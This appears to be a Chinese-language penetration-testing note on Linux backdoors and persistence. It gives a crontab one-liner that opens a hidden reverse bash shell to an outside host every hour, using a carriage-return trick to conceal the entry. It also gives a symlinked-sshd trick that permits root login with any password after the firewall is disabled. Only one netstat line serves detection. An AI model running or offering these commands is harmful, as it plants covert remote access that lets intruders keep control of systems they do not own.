 # Linux Backdoor

0x00 前言
=======

* * *

前一段时间学习一小部分内网的小笔记，[http://zone.wooyun.org/content/26415](http://zone.wooyun.org/content/26415)

结果没想到好像还是比较受欢迎，也是第一次被劈雷。最近办比赛遇上了rookit种植，感觉很无奈，所以自己也就研究了一下，内容都是一些以前的技术，也是为下面的笔记再次增加一章(windows下的域权限维持可以多看看三好学生师傅的文章)。大牛飘过。

笔记地址：  
[https://github.com/l3m0n/pentest_study](https://github.com/l3m0n/pentest_study)

测试环境:centos 6.5

0x01 crontab
============

* * *

计划任务,永远的爱

每60分钟反弹一次shell给dns.wuyun.org的53端口

```
(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/dns.wuyun.org/53;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -

```

0x02 硬链接sshd
============

* * *

上了防火墙的坑...测试前关闭一下吧

```
service iptables stop

```

出现：ssh: connect to host 192.168.206.142 port 2333: No route to host

```
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=2333;
ssh root@192.168.206.142 -p 2333

```

用root/bin/ftp/mail当用户名,密码任意

后门排查：

```
netstat -anopt

```

